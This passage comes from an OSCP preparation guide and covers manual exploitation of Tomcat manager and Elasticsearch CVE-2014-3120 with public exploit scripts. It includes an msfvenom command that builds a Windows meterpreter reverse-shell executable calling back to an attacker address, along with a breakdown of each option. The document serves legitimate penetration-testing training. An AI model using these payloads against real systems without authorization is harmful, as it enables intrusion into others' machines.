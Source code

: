 
## Phase III: The Gauntlet - Preparing for the OSCP

The Offensive Security Certified Professional (OSCP) examination is a rite of passage in the offensive security field. It is not a theoretical, multiple-choice test. It is a 24-hour, hands-on ordeal where the candidate is placed into an unknown network and tasked with compromising a series of machines. The exam tests persistence, creativity, and a methodical approach above all else. Its motto, "Try Harder," is a literal requirement for success. This phase of the training is designed to strip away the comfort and automation of tools like Metasploit and force the development of the manual skills and mental fortitude necessary to pass.

### Module 3.1: Manual Exploitation and Creative Kills

The primary objective of this module is to develop the proficiency to find, analyze, modify, and execute public exploits without relying on the `exploit` command within the Metasploit Framework. This forces a deeper understanding of how vulnerabilities are actually triggered.

- **Revisiting Previous Targets Manually:** The Tomcat and Elasticsearch vulnerabilities must be re-exploited using manual techniques.
    
    - **Tomcat Manual Exploit:** The `searchsploit tomcat manager` command will reveal multiple public exploit scripts. The task is not just to run one, but to select one, read its source code (likely Python or Perl), understand its logic—how it crafts the HTTP requests to log in and upload the WAR file—and then execute it successfully to gain a shell.
        
    - **Elasticsearch Manual Exploit:** A search on Exploit-DB or GitHub for a Python exploit for CVE-2014-3120 will yield several results.39 The chosen script will almost certainly require modification. The candidate must edit the code to insert the correct target IP address and the IP address of their own Kali machine for the reverse shell listener. This exercise teaches the critical skill of reading, understanding, and debugging code written by others under pressure.
        
- **Mastering Payload Generation (`msfvenom`):**
    
    - `msfvenom` is the payload generation engine of the Metasploit Framework, but it is a powerful and essential standalone tool. Mastery of `msfvenom` is non-negotiable for any serious penetration tester.
        
    - **Command Breakdown:** `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=443 -f exe -o shell.exe`
        
        - `-p`: Specifies the payload to be generated. The choice of payload is critical and depends on the target architecture and desired functionality.
            
        - `LHOST`: The listening host. This is the IP address of the attacker's machine where the handler will be waiting for the connection. It must be an IP reachable by the target. Using `localhost` or `127.0.0.1` is a common beginner mistake, as it tells the target to connect to itself.40
            
        - `LPORT`: The listening port on the attacker's machine.
            
        - `-f`: The output format. `msfvenom` can generate payloads in dozens of formats, including `exe` for Windows, `elf` for Linux, and various script formats like `py`, `php`, and `asp`.
            
        - `-o`: The output file name.
            
    - This tool will be used to generate the malicious payloads that are delivered by the manual exploit scripts.
        
